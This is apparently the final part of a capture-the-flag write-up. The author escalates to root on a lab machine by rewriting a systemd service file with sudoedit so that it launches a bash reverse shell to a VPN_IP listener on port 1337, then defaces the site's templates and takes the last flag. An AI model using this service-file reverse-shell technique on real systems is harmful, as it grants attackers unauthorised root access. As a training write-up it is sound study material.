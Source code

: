 ```

```sudoedit /etc/systemd/system/duckyinc.service```

![Image](https://imgur.com/I3TvWhA.png)

We can easy get a reverse shell with the code below clear all the code you found in /etc/systemd/system/duckyinc.service and put the code below. 


```
[Unit]
Description=rooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/VPN_IP/1337 0>&1'

[Install]
WantedBy=multi-user.target
```

Now start a ncat listener on port 1337 if you edit reverse shell code port put the port you edited.

![Image](https://imgur.com/RGv5DQ4.png)

Now type dis;

```sudo /bin/systemctl daemon-reload```
```sudo /bin/systemctl restart duckyinc.service```

Now let go back to our ncat listener we can see we have root shell already.

![Image](https://imgur.com/AMtouFL.png)

Yes root shell now let get the flag3 but when i get in the root directory the root flag is missing.

![image](https://imgur.com/rgUDOuc.png)

So i remember the mission we need to deface the website first so i navigate to /var/www/duckyinc/templates to deface the website.

![Image](https://imgur.com/hxqBgLV.png)

So let go back to the root directory to get the flag3.

![Image](https://imgur.com/HNedWZr.png)

Cool we have the last flag lol...................Box rooted and Thank You For Taking Your Time To Read My Write-up Peace And See You Next Time....

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
